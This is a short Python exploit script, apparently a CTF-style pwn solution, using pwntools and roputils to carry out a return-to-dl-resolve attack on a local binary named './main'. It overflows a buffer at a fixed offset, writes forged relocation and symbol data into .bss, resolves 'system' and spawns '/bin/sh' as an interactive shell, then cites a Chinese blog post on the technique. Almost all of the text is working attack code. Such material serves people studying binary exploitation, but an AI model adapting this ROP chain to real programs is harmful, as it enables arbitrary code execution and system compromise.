 ```python
from roputils import *
from pwn import process
from pwn import gdb
from pwn import context
r = process('./main')
context.log_level = 'debug'
r.recv()

rop = ROP('./main')
offset = 112
bss_base = rop.section('.bss')
buf = rop.fill(offset)

buf += rop.call('read', 0, bss_base, 100)
## used to call dl_Resolve()
buf += rop.dl_resolve_call(bss_base + 20, bss_base)
r.send(buf)

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
## used to make faking data, such relocation, Symbol, Str
buf += rop.dl_resolve_data(bss_base + 20, 'system')
buf += rop.fill(100, buf)
r.send(buf)
r.interactive()
```

参考：http://pwn4.fun/2016/11/09/Return-to-dl-resolve/